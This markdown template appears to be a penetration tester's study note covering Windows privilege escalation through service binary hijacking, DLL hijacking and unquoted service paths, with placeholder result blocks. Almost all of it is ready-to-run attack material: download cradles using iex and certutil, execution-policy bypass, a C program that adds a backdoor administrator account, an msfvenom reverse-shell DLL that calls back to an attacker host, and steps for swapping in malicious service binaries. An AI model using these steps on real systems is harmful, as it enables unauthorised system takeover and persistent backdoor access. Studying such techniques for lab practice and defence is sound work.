

# remember, we need to think out side of the box. If you have RDP, then we might need to do some search if that service has a vulnerability or not. 
#### **1- Service Binary Hijacking**

Powershell way (Automated way)
1- Get all running services 
kali side
```powershell
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
windows side 
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1 -Outfile PowerUp.ps1
```
alternatives
```powershell
#another way 
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1' -OutFile 'C:\tmp\PowerUp.ps1'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1" PowerUp.ps1
```
powershell bypass
```powershell
powershell -ep bypass
```
run the script 
```powershell
. .\PowerUp.ps1
```
results:
```powershell

```

**Get modifiable services**
```powershell
Get-ModifiableServiceFile
```
results:
```powershell

```

2- use the `AbuseFunction` command, if it worked, then we have the following creds as Administrator
```powershell
john:Password123!
```
results:
```powershell

```

when we try it, it might not work
try stopping the service 
```powershell
net stop <service-name>
```
results:
```powershell

```

if worked, start the service back again 
```powershell
net start <service-name>
```
results:
```powershell

```

we check if the user `john` was added to Administrators groups or not using the following command 
```powershell
Get-LocalGroupMember administrators
```
results:
```powershell

```

---------

if not, so in this case, we can enumerate the service the manual way 

**manual way**
1- Get all running services 
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

if the service binaries are located outside of `C:\Windows\System32`, that means it is ==user installed. ==
2- enumerate the permissions of the service 

>**permission table**

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

```powershell
icacls "C:\xampp\apache\bin\httpd.exe"
```
results:
```powershell

```

3- let's create a small binary on kali as replacement to the binary file. (name the file adduser.c)
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user john Password123! /add");
  i = system ("net localgroup administrators john /add");
  
  return 0;
}
```

we will then compile it on our kali machine using the following command 
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
results:
```powershell

```

4- download the file on the victim machine 
kali side 
```powershell
python3 -m http.server 80
```
results:
```powershell

```

windows side 
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/adduser.exe -Outfile adduser.exe
```
results:
```powershell

```

5- move  the original binary to  our directory (without this step, it will show that the binary already existing error on the next step)
```powershell
#replace it with the service binary title and path 
#move full-path\binary binary
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
```
results:
```powershell

```

6- move our  adduser.exe to the target binary path
```powershell
#replace `mysqld.exe` with the proper binary path
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
results:
```powershell

```

7- stop the service and restart it. 
```powershell
net stop mysql
net start mysql
```
results:
```powershell

```

in case you got `Access Denied` , we need to do the following 
check if the service is Auto run or not 
```powershell
#replace mysql with the proper service name
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

that should be fine. to restart the service then we need to reboot the machine 
to do that, we need to check if we have `SeShutdownPrivilege` privilege, if we have it, then we can restart the service by restarting the device. 
```powershell
whoami /priv
```
results:
```powershell

```


The _Disabled_ state only indicates if the privilege is currently enabled for the running process.
we have it. no worries. 

Issue a reboot command using the following 
```powershell
shutdown /r /t 0
```
results:
```powershell

```

to confirm that our attack worked, execute the following command to see if the user were added
```powershell
Get-LocalGroupMember administrators
```
results:
```powershell

```

#### **2- DLL Hijacking**
connect with [xfreerdp](6-%20Zettelkasten/xfreerdp.md)

```powershell
xfreerdp /cert-ignore /u:<% tp.frontmatter["domain-username"] %> /p:<% tp.frontmatter["domain-password"] %> /v:<% tp.frontmatter["RHOSTS"] %> /dynamic-resolution
```
results:
```powershell

```

enumerate the installed application
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
results:
```powershell

```

check if we have access to that path or it's subfolders
```powershell
#exanple
icacls "C:\"
icacls "C:\Program Files"
# add more sub folders and even the executable and see if it is replaceable
```
  results:
```powershell

```


>**permission table**

| Mask  | Permissions                                                 |
| ----- | ----------------------------------------------------------- |
| F     | Full access                                                 |
| M     | Modify access                                               |
| RX    | Read and execute access                                     |
| R     | Read-only access                                            |
| W     | Write-only access                                           |

here we have 2 ways
1- the easy way
search for result application vulnerabilities ,then if DLL hijacking vulnerability found.
1- replace the vulnerable .dll file with the .dll reverse shell
create .dll shell
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=7777 -f dll -o target_dll.dll
```
results:
```powershell

```

>transfer it to windows

kali side
```powershell
python3 -m http.server 80
```

windows side (replace the file name)
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/target_dll.dll -Outfile target_dll.dll
```
results:
```powershell

```

alternatives
```powershell
#another way 
iwr -uri http://<% tp.frontmatter["LHOST"] %>/target_dll.dll -Outfile target_dll.dll
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/target_dll.dll' -OutFile 'C:\tmp\target_dll.dll'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/target_dll.dll")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/target_dll.dll" target_dll.dll
```
results:
```powershell

```

>place at the destination folder
```powershell
# move existing_file desctination_folder\file_name
move 'C:\tmp\target_dll.dll' 'C:\destinationfolder\target_dll.dll'
```
  results:
```powershell

```

>start a listener
```powershell
nc -lvnp 7777
```
results:
```powershell

```


start the service
```powershell
Start-Service GammaService
Start-Service GammaService
```
results:
```powershell

```

reference example:  https://www.exploit-db.com/exploits/51267

2- the hard way is to use **[[6- Zettelkasten/procmon]]**

---

#### **3- Unquoted Service Path**

open powershell
```powershell
powershell -ep bypass
```
results:
```powershell

```

enumerate running and stopped services.
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
results:
```powershell

```

that command will output only services that are potentially vulnerable to our attack vector.

→　Does the service run as LocalSystem? (SYSTEM privileges)
→　Does the  BINARY_PATH_NAME is unquoted and contains spaces?

```powershell
# change unquotedsvc to whatever service has the same issue 
sc qc <service-name>
```
results:
```powershell

```

Alternatively we can also check if we can stop the service 
```powershell
Start-Service <service-name>
```
results:
```powershell

```

if yes,
→　Is path writable by Users? 
Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
```powershell
icacls "C:\"
icacls "C:\Program Files"
# add more subfolders
```
  results:
```powershell

```

>**permission table**

| Mask  | Permissions              |
| ----- | ------------------------ |
| F     | Full access              |
| M     | Modify access            |
| RX    | Read and execute access  |
| R     | Read-only access         |
| W     | Write-only access        |


let's create a small binary on kali as replacement to the binary file. (name the file adduser.c)
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user john Password123! /add");
  i = system ("net localgroup administrators john /add");
  
  return 0;
}
```

we will then compile it on our kali machine using the following command 
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
results:
```powershell

```

 download the file on the victim machine 
kali side 
```powershell
python3 -m http.server 80
```
windows side 
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/adduser.exe -Outfile adduser.exe
```
results:
```powershell

```

copy it to the destination path 
```powershell
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```
results:
```powershell

```

start the service 
```powershell
Start-Service <service-name>
#cmd
net start <service-name>
```
results:
```powershell

```

check if john is added to our user list 
```powershell
net user
```
results:
```powershell

```

check if john is an administrator now 
```powershell
net localgroup administrators
```
results:
```powershell

```

###### **PowerUp.ps1 way** (Automated way)
1- get powerup and transfer it to windows victim machien 
kali side
```powershell
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
results:
```powershell

```

windows side 
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1 -Outfile PowerUp.ps1
```
alternatives
```powershell
#another way 
iwr -uri http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1' -OutFile 'C:\tmp\PowerUp.ps1'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/PowerUp.ps1" PowerUp.ps1
```
results:
```powershell

```

powershell bypass
```powershell
powershell -ep bypass
```
results:
```powershell

```

run the script 
```powershell
. .\PowerUp.ps1
```
results:
```powershell

```

Get UnquotedService
```powershell
Get-UnquotedService
```
results:
```powershell

```


restart the service 
```powershell
Restart-Service GammaService
```
results:
```powershell

```

creds are : 
```powershell
john:Password123!
```
results:
```powershell

```

check if john is added to our user list 
```powershell
net user
```
results:
```powershell

```

check if john is an administrator now 
```powershell
net localgroup administrators
```
results:
```powershell

```
# Reference:
[[Windows privilege escalation-Service Exploit-Original Template]]
[1- reverse shell generation and file transfer](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/1-%20reverse%20shell%20generation%20and%20file%20transfer.md)
[Windows PrivEsc tryhackme](6-%20Zettelkasten/Windows%20PrivEsc%20tryhackme.md)
